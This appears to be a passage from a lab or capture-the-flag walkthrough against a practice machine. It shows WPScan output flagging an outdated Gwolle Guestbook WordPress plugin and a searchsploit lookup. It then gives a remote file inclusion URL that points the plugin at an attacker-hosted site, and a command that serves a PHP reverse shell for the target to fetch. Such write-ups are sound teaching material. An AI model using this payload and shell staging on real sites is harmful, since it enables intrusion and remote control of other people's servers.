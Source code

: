 

[+] gwolle-gb
 | Location: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2020-11-26T13:09:00.000Z
 | Readme: http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.0.8
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Gwolle Guestbook <= 2.5.3 - Cross-Site Scripting (XSS)
 |     Fixed in: 2.5.4
 |     References:
 |      - https://wpscan.com/vulnerability/00c33bf2-1527-4276-a470-a21da5929566
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17884
 |      - https://seclists.org/fulldisclosure/2018/Jul/89
 |      - http://www.defensecode.com/advisories/DC-2018-05-008_WordPress_Gwolle_Guestbook_Plugin_Advisory.pdf
 |      - https://plugins.trac.wordpress.org/changeset/1888023/gwolle-gb
 |
 | Version: 2.3.10 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt



searchsploit gwolle

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]

kali@kali:/opt/shells/php-reverse-shell-1.0$ sudo python3 -m http.server 80


